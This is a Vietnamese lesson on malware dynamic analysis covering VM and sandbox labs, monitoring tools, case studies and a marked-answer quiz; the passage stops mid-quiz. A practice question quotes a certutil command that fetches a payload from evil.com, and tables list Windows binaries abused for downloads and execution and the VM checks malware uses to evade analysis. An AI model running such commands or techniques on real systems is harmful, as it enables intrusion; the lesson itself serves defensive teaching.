








# Bài 2: Phân tích Malware trong Máy ảo & Dynamic Analysis

## Môi trường Phân tích Malware

Trước khi "mổ xẻ" malware, câu hỏi đầu tiên luôn là: **chạy nó ở đâu cho an toàn?**
Câu trả lời không đơn giản — mỗi lựa chọn đều có đánh đổi.

### Khái niệm & lý thuyết

- **Dynamic Analysis**: Chạy malware có chủ đích trong môi trường kiểm soát,
  quan sát hành vi thực tế (file tạo ra, registry thay đổi, network call...)
- **Static Analysis**: Phân tích mà không chạy — đọc code, strings, PE header.
  Hạn chế khi gặp **obfuscation** hoặc **packing**
- **Air-gapped machine**: Máy vật lý hoàn toàn cô lập, không kết nối mạng
- **Snapshot**: Trạng thái VM được lưu lại tại một thời điểm — có thể revert
  về sau khi malware đã chạy
- **VM Escape**: Trường hợp cực hiếm malware thoát khỏi VM, lây sang host

### So sánh môi trường

| Tiêu chí | Real Machine (Air-gap) | Virtual Machine |
|---|---|---|
| Malware phát hiện | Khó hơn | Dễ phát hiện hơn |
| Khôi phục sau nhiễm | Phải re-image | Revert snapshot (giây lát) |
| Kết nối mạng | Không có → malware có thể không hoạt động đủ | Có thể giả lập |
| Chi phí/tốc độ | Chậm, tốn kém | Nhanh, linh hoạt |
| Rủi ro lây host | Thấp | Rất thấp (trừ VM escape) |

### Cách hoạt động / Luồng xử lý





### Cách malware phát hiện VM

Malware ngày càng tinh vi — nhiều mẫu **tự tắt hoặc hành xử khác** khi biết
đang trong VM:

| Kỹ thuật kiểm tra | Chi tiết |
|---|---|
| **Registry Check** | Tìm key liên quan VMware: `HKLM\SYSTEM\...\DriverDesc` = "VMware SCSI Controller" |
| **Process Check** | Tìm process `VMwareService.exe`, `VMwareTray.exe` đang chạy |
| **MAC Address Check** | MAC bắt đầu bằng `00-05-69`, `00-0c-29`, `00-1c-14`, `00-50-56` → VMware |
| **BIOS Serial** | String "VMware" trong BIOS serial number |

### Ví dụ thực tế & Analogy

**Ví dụ thực tế:** Slide 2 của bài giảng dẫn câu chuyện trên VietPhD.org — một
người dùng cài crack trên máy lab, malware rò IP, công ty nước ngoài đòi
354.000 EUR. Đây là hậu quả điển hình của việc **không có môi trường cô lập**.

**Analogy:** VM snapshot giống như tính năng **Save Game** — bạn có thể thử
bất kỳ action nào nguy hiểm, rồi load lại từ điểm save nếu mọi thứ đi sai.
Không có snapshot = chơi game mà không save.

!!! warning "Lưu ý quan trọng về VMware Player"
    VMware Player miễn phí nhưng **không có tính năng snapshot** — đây là
    điểm chết với malware analysis. Dùng VMware Workstation, VirtualBox,
    hoặc Hyper-V để có snapshot.

!!! danger "Bridged Networking — Không dùng với malware"
    Chế độ Bridged kết nối VM trực tiếp vào LAN thật. Nếu malware có khả
    năng lateral movement hoặc gửi spam/DDoS — **mạng thật của bạn bị ảnh hưởng**.

### Câu hỏi thực tế

1. Bạn cần phân tích một mẫu ransomware nghi ngờ có tính năng lan truyền qua
   mạng nội bộ. Bạn sẽ chọn network mode nào cho VM và tại sao?
2. Một mẫu malware khi chạy trong VM không làm gì cả, nhưng khi chạy trên
   máy thật thì mã hóa toàn bộ file. Nguyên nhân có thể là gì?
3. Nếu không có VMware Workstation, bạn có thể dùng công cụ nào thay thế
   mà vẫn có tính năng snapshot?

---

> 💡 **Chốt nhanh:** VM + Snapshot là combo chuẩn cho dynamic analysis — nhanh,
> an toàn, có thể lặp lại. Luôn dùng host-only hoặc INetSim thay vì kết nối
> Internet thật cho malware.

---

## Sandbox & Dynamic Analysis

### Khái niệm & lý thuyết

**Sandbox** là giải pháp "all-in-one" — nạp malware vào, tự động chạy, tự
động ghi nhận, xuất báo cáo. Không cần thiết lập môi trường thủ công.

Các sandbox phổ biến: Norman Sandbox, GFI Sandbox, Anubis, Joe Sandbox,
ThreatExpert, BitBlaze, Comodo Instant Malware Analysis, **Any.run** (online).

**Tại sao vẫn cần dynamic analysis thủ công nếu đã có sandbox?**

### Hạn chế của Sandbox



!!! warning "Sandbox & Sleep Trick"
    Nhiều sandbox hook hàm `Sleep()` để bỏ qua thời gian chờ. Tuy nhiên
    malware có thể dùng các cách khác để "ngủ" (timer, event, network wait...)
    mà sandbox không hook được — dẫn đến **bỏ sót hành vi độc hại**.

### Ví dụ thực tế & Analogy

**Ví dụ:** SolarWinds SUNBURST sleep **2 tuần** trước khi gửi request đến C2.
Mọi sandbox thông thường sẽ miss hoàn toàn hành vi này.

**Analogy:** Sandbox giống như **camera an ninh thông minh tự động** — xử lý
được 80% trường hợp thông thường. Nhưng tên trộm chuyên nghiệp biết lịch
của camera. Dynamic analysis thủ công là **bảo vệ thật sự ngồi quan sát**.

### Câu hỏi thực tế

1. Bạn nhận được một file DLL đáng ngờ. Submit lên Any.run — không thấy hành
   vi gì bất thường. Bạn có kết luận file này an toàn không? Bước tiếp theo?
2. Tại sao sandbox đôi khi báo cáo sai khi malware target Windows 7 nhưng
   sandbox đang chạy Windows XP?

---

> 💡 **Chốt nhanh:** Sandbox là điểm khởi đầu nhanh, không phải điểm kết thúc.
> Khi sandbox cho kết quả không thuyết phục, dynamic analysis thủ công với
> Procmon/ProcExp là bước tiếp theo bắt buộc.

---

## Case Study: Malware thực tế

### Case 1 — Social Media Account Stealer (.bat file)

Đây là case study thực từ slide, minh họa chuỗi tấn công kinh điển nhắm vào
người dùng Việt Nam qua mạng xã hội.

#### Chuỗi tấn công



#### Kỹ thuật đáng chú ý

| Kỹ thuật | Mô tả | MITRE ATT&CK |
|---|---|---|
| **Obfuscation** | BAT file mã hóa để qua AV | T1027 |
| **Startup Persistence** | Ghi vào `%AppData%\...\Startup\` | T1547 |
| **LOLBAS** | Dùng `powershell.exe` built-in | T1059.001 |
| **Distraction** | Mở Chrome → aliexpress.us để nạn nhân không nghi | - |

!!! tip "Công cụ phân tích dùng trong case này"
    - **VirusTotal**: Check hash ban đầu (2/59 engine phát hiện — rất thấp!)
    - **IDA Pro + Hex View**: Đọc nội dung obfuscated BAT
    - **ChatGPT**: Deobfuscate batch script (thực tế trong slide!)
    - **Any.run**: Dynamic sandbox

### Case 2 — SolarWinds Supply Chain Attack (APT29/UNC2452)

Một trong những cuộc tấn công supply chain lớn nhất lịch sử.



#### Kỹ thuật tàng hình nổi bật

**Steganography trong HTTP traffic:** SUNBURST giấu command trong GUID và HEX
strings của XML response — trông như traffic bình thường của .NET assembly.

**Anti-forensics:** Lateral movement dùng IP addresses tại **quốc gia của
nạn nhân** để tránh alert địa lý. Hostname của attacker **match với
environment của victim**.

!!! danger "Tại sao SolarWinds qua mặt được tất cả?"
    File DLL có **chữ ký số hợp lệ của SolarWinds Worldwide, LLC** — mọi
    security tool tin tưởng file signed. Đây là lý do tại sao supply chain
    attack nguy hiểm hơn phishing thông thường.

### Case 3 — PRC Nexus Espionage (UNC6384) — Nhắm vào Nhà ngoại giao



#### Kỹ thuật API Hashing + TLS (Thread Local Storage)

CANONSTAGER dùng **API hashing** để giấu Windows API nào đang được gọi, lưu
function address vào **TLS array** — vị trí bất thường mà nhiều security tool
bỏ qua.

#### Indirect Code Execution

CANONSTAGER giấu launcher code trong **window procedure**, trigger qua
Windows message queue — làm rối control flow, tránh detection.

---

> 💡 **Chốt nhanh từ 3 case studies:** Malware hiện đại dùng legitimate tools
> (PowerShell, signed binaries), persistence qua Startup folder, và kỹ thuật
> anti-forensics tinh vi. Dynamic analysis phải hiểu được context, không chỉ
> log events.

---

## Running Malware & LOLBAS

### Khái niệm & lý thuyết

**LOLBAS (Living Off The Land Binaries, Scripts and Libraries):** Dùng các
binary **có sẵn trong Windows**, được Microsoft ký, để thực hiện hành vi độc
hại — bypass AV vì đây là file "tin cậy".

Tiêu chí LOLBAS:
- Microsoft-signed, native binary
- Có chức năng "ngoài ý muốn" (unexpected functionality)
- Hữu ích cho execute code, download file, persistence, UAC bypass,
  DLL hijacking

**Launching DLLs:** DLL không chạy trực tiếp được — phải dùng
`rundll32.exe`:

```cmd
rundll32.exe DLLname, ExportFunctionName [arguments]
# Ví dụ:
rundll32.exe rip.dll, Install
# Hoặc dùng ordinal:
rundll32.exe xyzzy.dll, #5
```

### Một số LOLBAS quan trọng

| Binary | Khả năng lạm dụng |
|---|---|
| `certutil.exe` | Download file, decode base64 |
| `bitsadmin.exe` | Download/Upload file qua BITS |
| `rundll32.exe` | Execute DLL |
| `msbuild.exe` | Compile và execute C# inline |
| `powershell.exe` | Gần như mọi thứ |
| `wmic.exe` | Execute process, query system |

!!! tip "Xem toàn bộ LOLBAS"
    Tham khảo tại [lolbas-project.github.io](https://lolbas-project.github.io)
    — hiện có hơn 190 binaries được documented.

### Câu hỏi thực tế

1. Bạn thấy trong Procmon một process `certutil.exe -urlcache -split -f
   http://evil.com/payload.exe payload.exe`. Đây là kỹ thuật gì?
2. Malware dùng `rundll32.exe shell32.dll, ShellExec_RunDLL` để execute.
   Làm sao bạn phân biệt đây là malicious hay legitimate?

---

> 💡 **Chốt nhanh:** LOLBAS là "sống nhờ đất địch" — kẻ tấn công không cần
> drop thêm tool, chỉ cần lạm dụng những gì Windows đã có sẵn.

---

## Monitoring Tools

### Process Monitor (Procmon)

**Procmon** giám sát real-time: Registry, File System, Network, Process,
Thread activity.

#### Workflow sử dụng Procmon cho malware analysis



**Filters quan trọng nhất:**
- `Process Name is [malware.exe]` → Include
- `Operation is RegSetValue` → Include (theo dõi persistence)
- `Operation is CreateFile` → Include (theo dõi file tạo mới)
- Mặc định exclude: `Procmon.exe`, `System`, `IRP_MJ_`, `FASTIO_`

!!! danger "RAM Warning"
    Procmon lưu **tất cả events vào RAM**. Không nên chạy quá lâu — có thể
    fill RAM và crash máy.

### Process Explorer

"Task Manager on steroids" — hiển thị process tree, DLLs loaded, network
connections, digital signatures.

**Color coding mặc định:**
- 🟦 Xanh dương: User processes
- 🟪 Hồng: Services
- 🟩 Xanh lá (tạm thời): Process mới spawn
- 🟥 Đỏ (tạm thời): Process vừa terminate

**Verify button:** Kiểm tra digital signature của file **trên disk** — nhưng
**không phát hiện được process replacement** (malware inject vào process
hợp lệ trong RAM).

**Phát hiện malicious document:** Mở Process Explorer → mở file PDF/Word đáng
ngờ → quan sát process mới xuất hiện. Nếu có process lạ spawn → document
độc hại.

### Regshot

Tool so sánh registry snapshot: Chụp **trước** khi chạy malware, chụp **sau**,
so sánh diff.

```
Workflow:
1. [1st Shot] — Chụp trạng thái registry sạch
2. [Chạy malware] — Để malware thực thi đủ thời gian
3. [2nd Shot] — Chụp lại
4. [Compare] — Xuất report: keys thêm/xóa/thay đổi
```

!!! tip "Kết hợp Regshot + Procmon"
    Regshot cho biết **kết quả cuối** (registry thay đổi gì). Procmon cho biết
    **quá trình** (sequence of operations). Kết hợp cả hai cho bức tranh đầy đủ.

---

> 💡 **Chốt nhanh:** Procmon = giám sát real-time có filter. Process Explorer =
> quan sát process tree và DLL. Regshot = so sánh before/after registry.
> Ba công cụ bổ trợ nhau, dùng song song.

---

## Fake Network với INetSim & Wireshark

### Tại sao cần fake network?

Nhiều malware **không làm gì cả** nếu không kết nối được C2 server.
Nhưng không thể cho malware kết nối Internet thật. Giải pháp: **giả lập
network services** ngay trong lab.

### Kiến trúc lab với INetSim



**INetSim** chạy trên Linux, giả lập: DNS, HTTP, HTTPS, FTP, SMTP, IRC,
và nhiều protocol khác — trả về **fake response** cho mọi request.

### Wireshark

Capture và phân tích traffic giữa malware VM và INetSim:
- **Follow TCP Stream**: Xem toàn bộ conversation của 1 connection
- **Filter `http`**: Xem HTTP requests/responses
- Có thể **save files từ stream** (malware download payload → extract từ pcap)

### ApateDNS — Cảnh báo

!!! warning "ApateDNS thường không hoạt động tốt"
    Theo slide, ApateDNS có vấn đề trên Windows XP và 7 — `nslookup` redirect
    được nhưng browser/ping thì không. **Khuyến nghị dùng INetSim thay thế.**

### Câu hỏi thực tế

1. Malware bạn đang phân tích kết nối đến `avsvmcloud.com` trên port 443.
   Với INetSim, bạn sẽ thấy gì trong Wireshark? Thông tin gì có thể khai thác?
2. Bạn muốn biết malware có gửi data gì qua HTTP không. Bạn dùng tính năng
   nào của Wireshark để đọc payload plaintext?

---

> 💡 **Chốt nhanh:** INetSim + Wireshark = "man-in-the-middle hợp pháp" trong
> lab của bạn. Mọi network call của malware đều được capture và fake response
> — malware "nghĩ" đang online nhưng thực ra đang nói chuyện với lab.

---

## Quiz — Malware Analysis in Virtual Machines

### Tầng 1 — Ghi nhớ

**Câu 1.** Dynamic Analysis là gì?

- [x] Chạy malware có chủ đích trong môi trường kiểm soát và quan sát hành vi
- [ ] Phân tích mã nguồn malware mà không thực thi
- [ ] Đọc PE header và strings của file executable
- [ ] Upload lên VirusTotal để quét

??? info "Giải thích"
    Dynamic analysis = chạy malware thật và monitor. Các lựa chọn còn lại
    là static analysis hoặc automated scanning.

---

**Câu 2.** VM Snapshot được dùng để làm gì trong malware analysis?

- [x] Lưu trạng thái VM sạch trước khi chạy malware, có thể revert về sau
- [ ] Tạo bản backup toàn bộ ổ đĩa để lưu trữ lâu dài
- [ ] Chụp ảnh màn hình VM tại một thời điểm
- [ ] Export VM sang máy khác

??? info "Giải thích"
    Snapshot cho phép revert về trạng thái sạch sau mỗi lần phân tích —
    core workflow của dynamic analysis.

---

**Câu 3.** MAC address nào sau đây cho thấy máy đang chạy trong VMware?

- [x] 00-0C-29-XX-XX-XX
- [ ] 00-1A-2B-XX-XX-XX
- [ ] AC-DE-48-XX-XX-XX
- [ ] 00-11-22-XX-XX-XX

??? info "Giải thích"
    VMware OUI (Organizationally Unique Identifier): `00-05-69`, `00-0C-29`,
    `00-1C-14`, `00-50-56`. Malware check MAC để phát hiện VM.

---

**Câu 4.** LOLBAS là viết tắt của gì?

- [x] Living Off The Land Binaries, Scripts and Libraries
- [ ] List Of Legacy Binary Attack Suites
- [ ] Local Operating Level Binary Analysis System
- [ ] Low-Level Object-Based Attack Surface

??? info "Giải thích"
    LOLBAS = Living Off The Land — dùng binary hợp lệ có sẵn trong OS để
    thực hiện hành vi độc hại.

---

**Câu 5.** Lệnh nào dùng để chạy một DLL với exported function "Install"?

- [x] `rundll32.exe malware.dll, Install`
- [ ] `regsvr32.exe malware.dll Install`
- [ ] `cmd.exe /c malware.dll Install`
- [ ] `dllhost.exe malware.dll /Install`

??? info "Giải thích"
    Cú pháp chuẩn: `rundll32.exe DLLname, ExportName [args]`

---

**Câu 6.** INetSim chạy trên hệ điều hành nào?

- [x] Linux
- [ ] Windows
- [ ] macOS
- [ ] Cả Windows và Linux

??? info "Giải thích"
    INetSim là Linux-based tool, thường cài trên Kali Linux hoặc REMnux trong
    host-only network cùng với Windows VM phân tích malware.

---

**Câu 7.** Procmon theo dõi những loại hoạt động nào?

- [x] Registry, File system, Network, Process, Thread
- [ ] Chỉ Registry và File system
- [ ] CPU usage, Memory, Disk I/O
- [ ] Network traffic và DNS queries

??? info "Giải thích"
    Process Monitor (Sysinternals) monitor: Registry operations, File System
    operations, Network connections, Process/Thread creation/termination.

---

**Câu 8.** Regshot so sánh điều gì?

- [x] Hai snapshot của Windows Registry tại hai thời điểm khác nhau
- [ ] Hai phiên bản của cùng một file malware
- [ ] Registry của máy nhiễm với máy sạch chuẩn
- [ ] Process list trước và sau khi chạy malware

??? info "Giải thích"
    Regshot: chụp 1st shot (trước), chạy malware, chụp 2nd shot (sau),
    Compare → thấy keys nào được thêm/xóa/sửa.

---

### Tầng 2 — Hiểu & Phân tích

**Câu 9.** Tại sao sandbox có thể bỏ sót hành vi của SUNBURST (SolarWinds)?

- [x] SUNBURST sleep 2 tuần trước khi hoạt động — sandbox không chờ đủ lâu
- [ ] SUNBURST chạy ở kernel mode mà sandbox không monitor được
- [ ] SUNBURST chỉ hoạt động trên máy vật lý, không chạy trong VM
- [ ] SUNBURST mã hóa toàn bộ traffic nên sandbox không đọc được

??? info "Giải thích"
    Sleep 2 tuần là kỹ thuật anti-sandbox kinh điển. Sandbox thường chỉ
    observe vài phút đến vài giờ. Dù sandbox hook Sleep(), SUNBURST dùng
    network-based timing không bị hook.

---

**Câu 10.** Trong Process Explorer, màu đỏ (tạm thời) của một process có nghĩa gì?

- [x] Process vừa terminate
- [ ] Process đang dùng CPU cao
- [ ] Process được phát hiện là malicious
- [ ] Process không có digital signature

??? info "Giải thích"
    Color coding: Xanh lá = vừa spawn, Đỏ = vừa terminate. Cả hai chỉ
    hiển thị tạm thời để analyst kịp nhận ra thay đổi.

---

**Câu 11.** So với Bridged networking, Host-only networking an toàn hơn vì:

- [x] VM chỉ giao tiếp với host, không thể reach LAN thật hoặc Internet
- [ ] VM bị giới hạn tốc độ mạng
- [ ] VM không thể giao tiếp với host
- [ ] Wireshark không capture được traffic Host-only

??? info "Giải thích"
    Host-only = isolation từ mạng bên ngoài. Malware không thể spread ra LAN,
    không gửi spam, không tham gia DDoS. VM vẫn có thể nói chuyện với
    host (→ INetSim trên host hoặc Linux VM cùng mạng).

---

**Câu 12.** Tại sao "Verify" trong Process Explorer không phát hiện được
process replacement (process hollowing)?

- [x] Verify kiểm tra file trên disk, không kiểm tra memory image của process đang chạy
- [ ] Verify chỉ hoạt động với Microsoft binaries
